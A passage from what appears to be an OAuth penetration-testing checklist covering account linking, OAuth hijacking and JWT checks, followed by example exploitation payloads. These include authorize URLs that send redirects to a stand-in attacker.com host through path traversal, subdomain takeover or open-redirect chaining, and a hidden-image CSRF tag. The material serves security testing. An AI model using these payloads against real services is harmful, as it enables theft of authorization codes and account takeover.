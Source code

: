 - [ ] Test for account linking/unlinking issues
  - [ ] Check if linking a new OAuth provider requires re-authentication
  - [ ] Test if unlinking an OAuth provider creates authentication bypass opportunities

- [ ] Test for OAuth account hijacking
  - [ ] Check if the same OAuth identity can be linked to multiple accounts
  - [ ] Test if OAuth identifiers (email, user ID) are properly validated

### 8. Implementation-Specific Vulnerabilities

- [ ] Test for JWT vulnerabilities (if JWTs are used)
  - [ ] Try the "none" algorithm attack
  - [ ] Test for weak signature validation
  - [ ] Check for JWT header/payload confusion

- [ ] Test for OAuth server-specific issues
  - [ ] Research known vulnerabilities in the specific OAuth provider
  - [ ] Test for provider-specific implementation flaws

## Exploitation Techniques

### Redirect URI Manipulation

1. **Basic Redirect URI Manipulation**
   ```
   https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://attacker.com&response_type=code
   ```

2. **Path Traversal in Redirect URI**
   ```
   https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://legitimate-app.com/callback/../../../attacker.com
   ```

3. **Subdomain Takeover**
   ```
   https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://subdomain.legitimate-app.com
   ```
   (Where subdomain is vulnerable to takeover)

4. **Open Redirector Chaining**
   ```
   https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://legitimate-app.com/redirect?url=https://attacker.com
   ```

### CSRF Attacks

1. **Basic CSRF Attack (Missing State Parameter)**
   ```html
   <img src="https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://legitimate-app.com/callback&response_type=code" style="display:none">
   ```
